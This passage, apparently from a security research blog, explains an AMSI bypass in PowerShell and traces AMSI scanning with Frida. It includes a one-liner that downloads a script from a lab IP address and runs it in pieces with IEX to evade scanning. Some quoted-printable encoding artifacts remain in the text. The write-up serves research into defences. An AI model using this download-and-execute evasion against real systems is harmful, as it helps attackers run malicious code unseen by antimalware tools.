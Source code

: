 ![image7.png]({{site.baseurl}}/_posts/images/image7.png)


However, downloading three separate files might not be desired.

So let's put the entire script in full.txt, use a download cradle to place
it into the $full string variable, and IEX 3 different substrings. Let's
break it down first:

Our full script is saved in variable $full:

![image8.png]({{site.baseurl}}/_posts/images/image8.png)


We break the scripts into 3 substrings using a little bit of character
counting:

![image9.png]({{site.baseurl}}/_posts/images/image9.png)


We will be running those substrings using IEX.

Let's combine everything and run the =E2=80=9C1 liner=E2=80=9D:

```
$full =3D (New-Object Net.Webclient).downloadstring("
http://192.168.159.131/rastamouse/full.txt"); IEX($full.substring(0,591));
IEX($full.substring(591,60)); IEX($full.substring(651,126))
```

![image10.png]({{site.baseurl}}/_posts/images/image10.png)


We now have a 1 liner that bypasses AMSI, with only 1 download and no
modifications to the original script.


#### Frida Again

Let's peek again, after running this last 1 liner.

![image11a.png]({{site.baseurl}}/_posts/images/image11a.png)

![image11b.png]({{site.baseurl}}/_posts/images/image11b.png)


A summary is below. Basically we scan the one-liner and the 3 script parts
individually, all in the same Amsi Session.

```
AmsiOpenSession

AmsiScanBuffer(1-liner)    >>amsiSession=3D0x231f

AmsiScanBuffer(part 1)     >>amsiSession=3D0x231f

--------------------- The two lines below don't seem relevant, but I'm note
sure why they are there.
AmsiInitialize

AmsiScanBuffer(stuff)      (different amsiContext and amsiSession)
----------------------

AmsiScanBuffer(part2)       >>amsiSession=3D0x231f

AmsiScanBuffer(part3)       >>amsiSession=3D0x231f


AmsiCloseSession
```
